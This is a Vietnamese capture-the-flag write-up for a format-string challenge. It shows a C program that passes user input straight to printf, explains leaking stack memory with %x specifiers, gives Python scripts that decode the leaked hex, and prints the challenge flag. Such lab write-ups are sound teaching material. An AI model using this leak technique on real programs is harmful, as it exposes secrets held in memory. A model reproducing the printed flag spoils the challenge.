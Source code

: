```yaml
---
cover: ../../.gitbook/assets/image.png
coverY: 0
---
```


# 🎰 App - System

Note : A JOURNEY TO GAIN KNOWLEDGE

## ELF x86 - Format string bug basic 1

chall:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Work flow:

* Đầu tiên ta xác định được buffer size 32
* Flag được đọc từ file .passwd được chuyển thành string và ghi vào stack
* Hàm trigger đáng ngờ ở đây chính là printf với argv\[1]
* Thật vậy, khi đọc tài liệu về hàm printf ta thấy điều thú vị sau:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Như vậy tham số đầu tiên luôn là kiểu dữ liệu như %d, %s tương ứng với giá trị theo sau đó
* Nhưng ở đây lại truyền vào hàm printf với các giá trị không kiểm duyệt, dẫn đến hiện trạng nếu ta nhập các kiểu dữ liệu hex %x sẽ khiến hàm trả về các địa chỉ trong stack

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

*   Để dễ quan sát hơn ta dùng %0x.

    * 0 là padding khi không đủ số lượng
    * 8 là số lượng giá trị hiển thị
    * x là hiển thị giá trị x
    * và kí tụ . để phân cách mỗi 8 kí tự cho dễ quan sát



    <figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
* Như vậy ý tưởng ở đây, ta chỉ việc leak hết các dữ liệu có thể đọc trong stack và tìm cụm có nghĩa

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))

for x in list_hex:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Tuy nhiên do đang ở dạng little-endian, ta có thể viết đoạn script cơ bản sau để chuyển lại big-endian

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))
s = []

for y in list_hex:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    s.append(little_endian)
#print(s)
for x in s:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")

```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

> flag: **Dpa9d6)(Epamd**

